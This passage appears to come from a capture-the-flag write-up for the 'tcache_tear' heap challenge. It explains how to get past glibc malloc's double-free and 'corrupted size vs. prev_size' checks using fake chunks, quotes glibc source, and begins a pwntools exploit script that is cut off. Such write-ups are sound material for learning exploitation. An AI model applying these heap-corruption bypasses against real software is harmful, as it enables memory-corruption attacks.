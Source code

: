 ```c
    if (__glibc_unlikely (!prev_inuse(nextchunk)))
      malloc_printerr ("double free or corruption (!prev)");
```

They check whether the next chunk does have prev_inuse bit on or not. But you create a fake chunk in bss, you have no next chunk. To bypass, just need to create another chunk right after your fake chunk.

#### "corrupted size vs. prev_size"

If you free a large chunk (exceeds the fastbins and tcache range), lets call chunk A, they will check whether the next chunk (chunk B) is the top chunk or not. If chunk B isn't the top chunk, they continue to validate whether chunk B is freed or not by checking the prev_inuse flag in the next chunk of chunk B. If chunk B is freed, they merge chunk B into chunk A.
```c
#define unlink(AV, P, BK, FD) {                                            \
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");		
    ...
    ...   
}

...
...
_int_free (....){
    ...

    if (nextchunk != av->top) {
      /* get and clear inuse bit */
      nextinuse = inuse_bit_at_offset(nextchunk, nextsize);

      /* consolidate forward */
        if (!nextinuse) {
	        unlink(av, nextchunk, bck, fwd);
	        size += nextsize;
        } else
    	    clear_inuse_bit_at_offset(nextchunk, 0);
    ...
    }
    ...
}
```

To bypass this errror, create 2 fake chunks right after your fake chunk at name variable.

After getting the address of main arena, when I try to create a chunk of 15 bytes, they return me the address of my fake chunk that I just freed. To handle that, I prepared 2 chunks and put them into tcache before freeing my fake chunk.


###### Exploit
```python
from pwn import *

exe = ELF("./tcache_tear_patched")
libc = ELF("./libc-18292bd12d37bfaf58e8dded9db7f1f5da1192cb.so")
ld = ELF("./ld-2.27.so")

context.binary = exe
context.log_level = "debug"

def conn():
    if args.LOCAL:
        r = process([exe.path])
        # r = gdb.debug ([exe.path], "b *0x400BC7")
    else:
```
